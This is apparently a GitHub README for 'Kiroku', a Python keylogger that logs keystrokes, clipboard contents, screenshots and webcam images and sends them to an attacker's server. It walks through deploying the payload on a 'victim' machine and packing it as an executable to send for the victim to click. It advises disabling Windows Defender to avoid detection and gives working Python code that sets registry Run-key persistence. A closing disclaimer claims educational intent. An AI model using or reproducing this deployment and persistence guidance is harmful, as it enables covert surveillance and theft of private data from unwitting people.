 # Kiroku Keylogger

![GIF]('https://github.com/Kuraiyume/Kiroku/blob/main/kiroku.gif')

Kiroku Keylogger is a sophisticated tool designed to capture and monitor a wide range of user activities on a target system. It is equipped to log keystrokes, monitor clipboard contents, and take periodic screenshots and webcam image, which are then transmitted to a remote server at regular intervals.

## Payload Features

- **Keystroke Logging**: Captures all keystrokes, including special keys like Enter, Tab, and Backspace, and sends them to a specified server.
- **Clipboard Monitoring**: Continuously monitors clipboard content, detecting changes and sending the updated data to the server.
- **Screenshot Capture**: Takes screenshots at regular intervals and sends them to the server in a base64-encoded format.
- **Webcam Image Capture**: Takes webcam image at regular intervals and sends them to the server in a base64-encoded format also.
- **Modifier Key Tracking**: Tracks the state of Ctrl, Alt, and Shift keys to accurately capture key combinations.
- **Configurable Intervals**: Allows customization of the intervals for sending keystrokes, clipboard data, and screenshots.
- **JSON Payloads**: Packages keystrokes, clipboard data, and screenshots into JSON format for server transmission.
- **Threaded Execution**: Runs keystroke logging, clipboard monitoring, and screenshot capture in separate threads for efficient performance.
- **Automatic Transmission**: Periodically sends captured data to the server without user intervention.
- **Base64 Encoding**: Encodes screenshots in base64 format before transmission to reduce the payload size.
- **Platform Compatibility**: Designed to work seamlessly on multiple platforms with minimal configuration changes.

## Server Features

- **Keystroke Logging**: Receives and logs keystrokes from the payload, saving them to a specified file.
- **Clipboard Data Capture**: Captures clipboard content from the payload and saves it to a specified file. Optionally logs clipboard data based on user preference.
- **Screenshot Handling**: Receives base64-encoded screenshots from the payload, decodes them, and saves them as PNG files in a specified directory.
- **Webcam handling**: Receives base64-encoded webcam images from the payload, decodes them, and saves them as a PNG files in a specified directory.
- **Victim IP Logging**: Logs the IP address of the victim alongside captured data to identify the source.
- **JSON Parsing and Error Handling**: Parses incoming data in JSON format and handles errors like invalid JSON or server issues with detailed logging.
- **Customizable Configuration**: Allows customization of the server port, file paths for saved keystrokes, clipboard data, and screenshot storage directory.
- **Threaded Execution**: Handles incoming POST requests concurrently, ensuring smooth and efficient server performance.
- **Logging**: Provides detailed logging of all activities, including received data, errors, and server operations.
- **Session Persistence**: Automatically reconnects and continues sessions if the server is restarted while the payload is still running, ensuring uninterrupted data capture.
- **Interactive Use**: The server offers GUI Interface for more interactive and customizable listening.

## Installation && Usage

- **Clone the repository:**
  ```bash
  git clone https://github.com/Kuraiyume/Kiroku
  ```

- **Install the necessary libraries:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *You will need to install this in the victim's machine*
  
- **On the attacker machine, run the server:**
  ```bash
  python3 server.py
  ```
  *If Tkinter is not installed, install it using 'sudo apt install python3-tk'*

- **On the victim device configure the payload and run the script:**
  ```bash
  python3 payload.py
  ```

## How to make the payload run without the need of Python Interpreter?

- **You will need to install the required modules for the payload:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *Ensure that all of the modules are installed!*

- **Configure the payload before we turn it to executable, change the server IP, Port, and the time intervals (if needed).**

- **We will use PyInstaller to convert our payload to a standalone executable (PyInstaller is included in the requirements.txt).**

- **We will use the 'payload.spec' file to convert our payload to executable, but first, configure it on how your executable should be packed based on your requirements.**

- **After Configuration, we will use PyInstaller along with the payload.spec to generate us an executable version of the payload:**
  ```bash
  pyinstaller payload.spec
  ```
  *Make sure to build the executable on the same OS as the target system to avoid compatibility issues due to architecture differences.*
  *If you're building the executable on windows, you should turn off the Real-Time Protection in Windows Defender to avoid detection while building.*

- **Once the conversion is done, you will see a dist folder that's where your executable lives. Now all you need to do is run the server on the attacker's machine and send the executable to the victim and wait for the victim to click it, once clicked, the payload will do its work.**
  
  *Ensure all configurations made before the conversion are correct and match the attacker's machine setup.*

- **If you want to make it persistent when you convert it to executable, you'll need to add a logic in the payload that can move itself to the windows registry when it's executable, Here's how you can do that:**
  1. Import the winreg and sys module to allow your payload to integrate with the registry and file system (sys):
     ```python
     import winreg
     import sys
     ```
  2. Add this function:
     ```python
     def add_to_registry():
         exe_path = sys.executable
         try:
             registry_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_SET_VALUE)
             key_name = 'Kiroku'
             winreg.SetValueEx(registry_key, key_name, 0, winreg.REG_SZ, exe_path)
             winreg.CloseKey(registry_key)
         except Exception as e:
             print(f"Failed to add executable to registry: {e}")
     ```
  3. Call the function to the main guard (AT THE BEGINNING):
     ```python
     if __name__ == "__main__":
         add_to_registry()
     ```
     
## Warning

This tool is intended strictly for educational purposes and ethical hacking only. Unauthorized use of this tool for malicious activities or without explicit consent is illegal and strictly prohibited.

- **Ethical Use Only:** Ensure that you have proper authorization before deploying or using this tool. It is meant to help understand security vulnerabilities and improve defenses, not to invade privacy or engage in unlawful activities.
- **Legal Compliance:** Be fully aware of and comply with all applicable laws and regulations in your jurisdiction. Misuse of this tool can result in severe legal consequences.
- **Responsibility:** The creator of this tool does not condone or support illegal activities. Use this tool responsibly and ethically to advance your knowledge and skills in cybersecurity.
  
Proceed with caution and integrity. Your actions reflect your respect for privacy and the law.

## License

- Kiroku is licensed under the GNU General Public License.

## Author

- Kuraiyume

